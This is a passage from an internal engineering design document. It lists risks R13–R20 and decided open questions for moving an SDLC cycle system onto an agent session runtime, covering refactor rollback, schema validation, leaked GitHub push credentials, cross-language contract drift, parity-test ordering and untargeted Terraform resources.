**R13 — `buildMode` does not bound the blast radius, and "rollback is a field edit" is false after the shared-code extraction.** New, and the most consequential correction in this section. The flag decides which *dispatch* a cycle takes. It bounds none of the shared-code refactors this design requires: moving the effect machinery and `routeAfterEngineering` into `backend/common/`, moving the engineering-completion sequence out of the SQS path, replacing the plan write with a shared one, and extracting the QA review post. **Every one of those changes code that every non-runtime application also runs**, each is a hand refactor of a ~5,000-line file, and each is labelled "behaviour must be identical" — which is a claim, not a guarantee.

So the honest statement: **before the extraction lands, removing `agentConfig.buildMode` is a complete rollback — one `update-item`, no deploy. After it lands, rolling back the *refactor* is a code revert of something later phases build on, and it gets more expensive with each phase.** Phase 7 remains the point of no return, but it is not the first irreversible step.

Mitigation is not a flag — flagging a refactor whose entire purpose is that a second Lambda can import the code would mean **two copies**, which is worse than the risk. The mitigations are: split the extraction into small sequential PRs so a bisect has somewhere to land, and **gate on one live legacy cycle end to end** after the extraction and again after the completion-sequence move. Each gate costs under an hour and is the only thing that catches a behaviour-preserving refactor that did not preserve behaviour. §6 places both.

**R14 — a `resultSchema` keyword the runtime does not implement is silently forward-unvalidated.** New, and it is the residual risk the §2.6 change introduces rather than removes. CC authors a schema against a bounded subset; if it uses a keyword the runtime's validator ignores, that constraint simply does not apply and nothing says so. This is the same class of defect as the `saveLearnedPattern` drift that motivated §2.6 in the first place, one level up. It is genuinely better — one validator and one documented subset instead of nineteen hand-rolled handlers — but it is not eliminated. Mitigation: document the subset as a contract, pin it with a test shared between the repos, and have the validator **reject a schema containing an unknown keyword** rather than ignoring it. That last point is the whole difference between this being a managed risk and a repeat of the defect.

**R15 — the workspace TTL sweep is specified and unbuilt (§3.8).** New. It is referenced as an existing backstop by the amended supersede ordering, which uses it to justify treating a failed release as a warning rather than a cycle failure. Nothing builds it, and the primitive this document originally nominated for it prunes worktrees the runtime does not have. Until it exists, a failed release **leaks an entire shallow clone permanently** — and, per R17, **a live push credential with it** — with a disk alarm as the only signal and nothing at all watching the credential, on a design that creates a session per cycle step. **Measured, not inferred: 86 of 89 workspace directories on the live testing instance are stale, with mtimes reaching back to 8 June** (§3.8). Either build it or keep the harsher release-failure severity — not both — and whatever is built must reclaim both resources, or it addresses only the cheaper half.

**R16 — the runtime's deploy mechanism is the largest schedule risk in the plan, and it is not technical.** New. Deployment is a manual SSM command that stops the service, replaces the install directory, and loses every in-flight session including human ones, from a mutable pointer that makes the deployed version unobservable from CC. The pre-flight is advisory: nothing enforces that no session is running. Counting the runtime-side changes this design needs, that is a high single-digit number of outage windows to schedule with whoever owns the box — batching helps, but the windows are the constraint, not the code.

This is also **why §2.6 decided the way it did**, and the dependency runs both ways: if the runtime gains a deploy pipeline and a session drain, the pressure behind §2.6 drops considerably. It is already decided, so this is not a blocker — but anyone proposing to move a schema back into the runtime's release cycle must answer this first. **Recommended, and outside this document's authority: build the pipeline and the drain before Phase 1 rather than during Phases 4–6.** The artifacts, the bucket, the pointer and the IAM all already exist; it is wiring, not new infrastructure.

**R17 — The runtime leaks live push credentials, and this design raises the leak rate.** New, and observed rather than inferred. On the live testing instance on 2026-09-24, `~/.config/gh/hosts.yml` had been rewritten at 13:44 UTC while `/health` reported zero active and zero queued sessions, on a process up since 22 September. The refresh path returns early when no repositories are held, **so a rewrite with zero sessions proves a leaked `activeRepos` entry** — a session acquired a repository and never released it, and the refresh timer has been re-minting a valid GitHub push credential every ~50 minutes for two days, with no session behind it.

Three properties make this worse than an ordinary leak:

- **The credential stays valid indefinitely**, because the leak is precisely what keeps the refresh timer alive. Expiry is not a backstop.
- **It widens the union.** A leaked entry is a permanent member of the repository set every future token covers (§1.3), so every subsequent session's credential includes the leaked repo, forever.
- **It is invisible.** Nothing alarms on it, `/health` reports zero sessions, and the only way to see it is to read a file mtime on the box this design exists to stop using.

**This design raises the leak rate sharply** — one session per cycle *step*, unattended, where today it is one per human sitting down. Whatever the current per-session leak probability is, it is about to be multiplied.

Mitigations, in order of value: make the release path reliable (create-then-release already stops a failed create from stranding a release, §3.2, but a *skipped* release is still the open case); have the TTL sweep reclaim **credentials as well as workspaces**, since §3.8's sweep is the backstop for exactly this class and currently addresses only the disk half; alarm on a `hosts.yml` rewrite with zero active sessions, which is a two-line check that would have caught this in an hour rather than in two days; and scope credentials per session (§4.4), which makes a leaked entry cost one repository instead of widening a shared union. **The first three are small. The fourth is the real fix.**

**R18 — one contract, three languages, and the drift risk is now structural.** New, and it is the Go mandate's main consequence for this design (§5.5, and the rule in §2.4).

The event envelope will exist in TypeScript (the runtime publisher) and Go (the consumer). The cycle-effect rules will exist in Go (the new consumer) and JavaScript (`runtimeEvents.mapSessionEvent`, `buildCompletionEffect` and `applyRuntimeEffect`, **already merged on `develop` with tests** — this document's plan was to keep and extend them, which is now a port). And the cycle record's field names and activity-feed selector are read from **three** languages, the third being Python: `backend/lambda_handlers/sherpa/tools/cc_cycles.py` reads the record directly and today reads `progressLog` alone — **the same class of defect §1.5 describes, from a language nobody was looking at.**

Why this is structural rather than incidental: R9 is the same problem with two copies and it needed a documented port plus a build-failing guard to stay correct. Three copies of a contract that changes during a migration, with the copies in three languages maintained by different work streams, is not a harder instance of the same risk — it is a different risk, because **no single reviewer sees all three.** The §1.5 bug is the proof: it survived in JS and Python simultaneously and was found in each independently, months apart.

Mitigation is §2.4's rule — one normative definition, every port guarded by a test that fails the build, and **prefer deleting a copy to guarding it.** Two of the three copies are avoidable: the envelope is a wire format and could be generated from one schema; the Python reader reads the record only to render it, and would not need the rules at all if it read through an API that applies them. **The moment to notice that is while the Go shape is being chosen** — afterwards it is three implementations and a test matrix.

**R19 — the reproduced-defect harness is the parity baseline, so fixing a defect before parity is verified destroys the thing that would verify it.** New, 2026-09-25, and it is the least obvious risk in this document and among the most expensive to get wrong.

The Go port reproduces the JavaScript's existing defects deliberately, each pinned by a named test asserting the current bad behaviour. That is the right call — it is what makes a port reviewable — and it means **the defect set *is* the parity harness.**

The trap: **fix a defect on one path while a golden still pins the bad behaviour on the other, and the parity diff reports the fix as a failure, with no way to distinguish the two.** You then either chase a phantom regression or, worse, "correct" the fix to restore parity.

**So the ordering is: establish parity against the bad behaviour first, then fix.** Not the other way round, and not concurrently.

**One exception, and it is not optional.** Defects that destroy or orphan work the agent has already completed must be fixed before any real cycle runs, parity or not — the two known instances being an unguarded dereference *after* the commit is pushed (which orphans real work with a record that does not say where it went) and a rule that strips the only reference to a still-open PR on a transient database error. For those, **fix both paths in the same commit and re-pin the golden in that commit**, so parity is never transiently broken and the baseline moves atomically.

The general rule this expresses: **a deliberately-reproduced defect is an asset with an expiry date.** Its value is parity verification; after parity is recorded it becomes ordinary debt and should be scheduled. What it must never be is fixed silently on one side.

**R20 — the deploy target list is a systematic gap, not two incidents, and its failure mode is always silence.** New, 2026-09-25. Two independent findings landed on the same root cause: `stuckCycleDetector`'s Lambda, log group, schedule, target and permission are in **no** target list, so no change to it has ever reached AWS (§3.9); and `aws_apigatewayv2_route.approve_plan` is likewise untargeted, one of **36 untargeted routes**. Neither was found by a failing test. Both were found by someone asking.

**The general rule this implies, and it should be applied to every step of this migration rather than to these two cases:** in this repo the default state of a new or edited Terraform resource is **not deployed**, and the symptom is always that something simply never runs. A Lambda that is never invoked, a route that never routes, a schedule that never fires — none of which looks like a deploy problem from the outside. So **verifying targeting is part of the step, not a review checklist item**, and "the change merged" is not evidence that the change is live.

Aggravating factor worth stating: testing is deployed by a **full untargeted apply** (§2.1 item 5), so a missing target entry is invisible in the environment where this design is validated and only surfaces later on internal. Every exit criterion in §6 can pass with the target entry missing.

The cheap systemic mitigation is the one the repo already uses elsewhere — a static guard reconciling declared resources against the target lists, in the style of the existing route-coverage and frontend-contract guards, with an explicit shrinking allowlist for the 36 known gaps. That converts a silent default into a build failure, and it is the only mitigation that scales past remembering.

### Open questions

1. ~~Does QA need its own workspace?~~ **Decided: separate clone, checked out at `commitSha`, with `baseBranch` fetched for the diff** (§3.5). A checker that also built the thing it is checking is not a check — "a check only means something if the checker didn't also build what it's checking" (PR43 `sdlc-step-contract.md`). Costs a clone per QA session; worth it. The isolation mechanism is the runtime's choice, but the base ref must be present either way.
2. ~~Where does the cycle's `stage` string come from now?~~ **Decided: CC sets it in `correlation` at session create** (§2.4), using the existing progressLog vocabulary — `planning` | `engineering` | `qa`. It maps one-to-one onto which step CC just started, so nothing infers it. Note this is the coarse progressLog category, not `cycle.stage`, which is a separate finer-grained field (`code_generation`, `human_approval`, `qa_execution`, …).
3. ~~Does a resumed engineering session keep its conversation across a QA iteration?~~ **Dissolved.** Every iteration is a new session (§3.2), so there is no conversation to carry. Matches today's behaviour — `ssmBuildRunner` returns `conversationHistory: null` (`:971-986`).
4. ~~What happens to `sdlcType: 'ci-only'` and `'no-qa'`?~~ **Decided: leave the four branches' *routing* exactly as it is.** **Amended on the premise, though: `routeAfterEngineering` is not untouched.** That is true for Phase 4 and false for Phase 6 — its `ai-qa` branch does not merely set a status, it invokes QA **synchronously** and processes the result inline across ~65 lines, writing the iteration's `qaResult`, the test fields and the failure list, and choosing between four statuses. Making QA a session means that branch must start a session and return, with the result arriving later through the consumer. That is a structural change and it is the largest single piece of work in Phase 6. The four branches' *destinations* are unchanged, which is what this answer was really about. For the record, the four branches differ in whether the cycle gates on CI: `no-qa` and `manual-review` go straight to `PENDING_APPROVAL` without waiting; `ci-only` blocks at `QA_WAITING_FOR_TESTS` until CI reports; `ai-qa` runs the QA session (§3.5). `cycle.skipQA` overrides all of it to `no-qa`. Note `sdlcConfig.type` is never written by any code path — `NewApplication.jsx:37` sends only `templateId` — so `ci-only` and `manual-review` are unreachable in practice today unless an application record was edited by hand.
5. ~~Should the plan session and the engineering session share a `name`?~~ **Cosmetic — `correlation` is the correlation mechanism, not the name.** Suggested format `cycle/<id> · <stage>`, which groups a cycle's sessions in the runtime's session list while still naming the step. (The related off-by-30 — `runtimeDispatch.js:48` slices `task` at 80 against `SESSION_NAME_MAX_LENGTH = 50` — is in Phase 0.)

6. ~~Does `retryStalled` do the right thing for a runtime session?~~ **Decided — see §3.9.** Elapsed time stops being evidence after cutover. Nothing transitions a cycle on a timer; the detector emits a best-effort event and whatever acts on it checks `GET /sessions/{id}` first. Applies equally to `retryStalled` (`index.js:3931`) and `stuckCycleDetector` (`:22-29`), whose 15-minute engineering threshold would otherwise fail live sessions. Needed before Phase 4.

7. ~~Should the consumer be one Lambda or one per stage?~~ **Decided: one.** Per-stage would mean a queue each (or content filtering on one), three event source mappings and three deploys, to avoid a `stage` switch in a pure function. The stage-dependent handling is the two-row table in §2.4 and it stays inside `mapSessionEvent`.
